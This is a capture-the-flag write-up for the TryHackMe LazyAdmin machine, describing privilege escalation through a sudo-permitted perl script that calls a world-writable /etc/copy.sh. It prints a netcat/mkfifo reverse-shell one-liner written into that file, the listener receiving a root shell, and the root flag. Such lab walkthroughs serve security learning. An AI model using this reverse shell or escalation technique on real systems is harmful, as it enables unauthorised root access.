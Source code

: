 # Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) checking for sudo -l :

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

and checking the [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) we see that it is running system (‘sh’,’/etc/copy.sh’) and checking the permission of `/etc/copy.sh` we see we can modify that so we do for a revshell ;

```
$ cd /etc/
$ ls -lah | grep copy.sh
-rw-r--rwx   1 root root     81 Nov 29 13:45 copy.sh
$ cat copy.sh	
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 5554 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

```

And we **[Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md)** to have a root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) , we can cat the root flag :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 5554
listening on [any] 5554 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 33370
/bin/sh: 0: can't access tty; job control turned off
# cd root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

Pwned !!
